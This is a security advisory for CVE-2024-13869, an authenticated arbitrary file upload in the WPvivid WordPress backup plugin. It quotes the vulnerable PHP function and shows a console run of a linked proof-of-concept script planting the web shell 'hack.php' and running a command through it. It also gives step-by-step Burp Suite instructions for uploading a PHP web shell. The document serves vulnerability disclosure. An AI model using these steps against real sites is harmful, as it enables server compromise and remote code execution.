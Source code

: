 +++
title = 'Migration,Backup, Staging – WPvivid <= 0.9.112 - Authenticated (Admin+) Arbitrary File Upload via wpvivid_upload_file'
date = 2025-02-22T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "WPvivid"]
description = "CVE-2024-13869: WordPress WPvivid plugin vulnerability allowing authenticated admin file uploads leading to RCE. Includes PoC exploit."
+++
### CVE-2024-13869

The [Migration, Backup, Staging – WPvivid Backup & Migration plugin](https://wordpress.org/plugins/wpvivid-backuprestore/) for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `upload_files` function in all versions up to, and including, `0.9.112`. This makes it possible for authenticated attackers, with Administrator-level access and above, to upload arbitrary files on the affected site's server which may make remote code execution possible. 
**NOTE:** Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.

## TL;DR Exploits
* A POC [CVE-2024-13869.py](https://github.com/d0n601/CVE-2024-13869/blob/main/CVE-2024-9162.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.
  
```console
python3 ./CVE-2024-13869.py https://lab0.hacker admin PASSWORD   
Logging into: https://lab0.hacker/wp-admin
Extracting nonce values...
ajax_nonce: a993fb1986
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab0.hacker/wp-content/wpvividbackups/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 46962sec preferred_lft 46962sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86190sec preferred_lft 14190sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:c7:fd:25 brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fec7:fd25/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:28:bd:99:83 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```


## Details  
It appears the `wpvivid_upload_file` action calls the `upload_files` function on line 293 of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-backup-uploader.php`, which checks the nonce and user's permissions, but not the file type being uploaded to the server.

```php
    function upload_files()
    {
        check_ajax_referer( 'wpvivid_ajax', 'nonce' );
        $check=current_user_can('manage_options');
        $check=apply_filters('wpvivid_ajax_check_security',$check);
        if(!$check)
        {
            die();
        }

        try
        {
            $chunk = isset($_REQUEST["chunk"]) ? intval(sanitize_key($_REQUEST["chunk"])) : 0;
            $chunks = isset($_REQUEST["chunks"]) ? intval(sanitize_key($_REQUEST["chunks"])) : 0;

            $fileName = isset($_REQUEST["name"]) ? sanitize_text_field($_REQUEST["name"]) : $_FILES["file"]["name"];

            $backupdir=WPvivid_Setting::get_backupdir();
            $filePath = WP_CONTENT_DIR.DIRECTORY_SEPARATOR.$backupdir.DIRECTORY_SEPARATOR.$fileName;

            $out = @fopen("{$filePath}.part", $chunk == 0 ? "wb" : "ab");

            if ($out)
            {
                // Read binary input stream and append it to temp file
                $options['test_form'] =true;
                $options['action'] ='wpvivid_upload_files';
                $options['test_type'] = false;
                $options['ext'] = 'zip';
                $options['type'] = 'application/zip';

                add_filter('upload_dir', array($this, 'upload_dir'));

                $status = wp_handle_upload($_FILES['async-upload'],$options);

                remove_filter('upload_dir', array($this, 'upload_dir'));

                $in = @fopen($status['file'], "rb");

                if ($in)
                {
                    while ($buff = fread($in, 4096))
                        fwrite($out, $buff);
                }
                else
                {
                    echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open tmp file.path:".$status['file']));
                    die();
                }

                @fclose($in);
                @fclose($out);

                @wp_delete_file($status['file']);
            }
            else
            {
                echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open input stream.path:{$filePath}.part"));
                die();
            }

            if (!$chunks || $chunk == $chunks - 1)
            {
                // Strip the temp .part suffix off
                rename("{$filePath}.part", $filePath);
            }

            echo wp_json_encode(array('result' => WPVIVID_SUCCESS));
        }
        catch (Exception $error)
        {
            $message = 'An exception has occurred. class: '.get_class($error).';msg: '.$error->getMessage().';code: '.$error->getCode().';line: '.$error->getLine().';in_file: '.$error->getFile().';';
            error_log($message);
            echo wp_json_encode(array('result'=>'failed','error'=>$message));
        }
        die();
    }
```


## Manual Reproduction
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Under `Backup & Restore`, click the `Backup Now` button to create a new backup and download it so we can use the `.zip` file in the following steps.
3. Under the `Backup & Restore` section again, navigate to the `Upload` tab and select the `.zip` we've just created. 
![pre_upload](https://github.com/user-attachments/assets/55ddbb43-ba15-47b2-88ac-dd801208049e)
4. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
5. Click `Upload` and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `wpvivid_upload_files` action.
![intercept_call](https://github.com/user-attachments/assets/6fcb8edd-9d34-4b05-b1aa-0b83c8d4795c)
6. Modify the request to include an arbitrary file, in the example below we're uploading a php web shell. 
![modify](https://github.com/user-attachments/assets/7170a0b2-a9b6-4623-919d-3f105d9e2d45)
7. Send the request and recieve `{"result":"success"}`.
![sent_modified](https://github.com/user-attachments/assets/a49b17fb-2c62-41d9-88e9-63ad77a4e164)
8. Browse the web shell at `https://example.com/wp-content/wpvividbackups/webshell.php` and execute code.
![hitshell](https://github.com/user-attachments/assets/fe5907a6-239c-4367-ad70-73c420b06443)
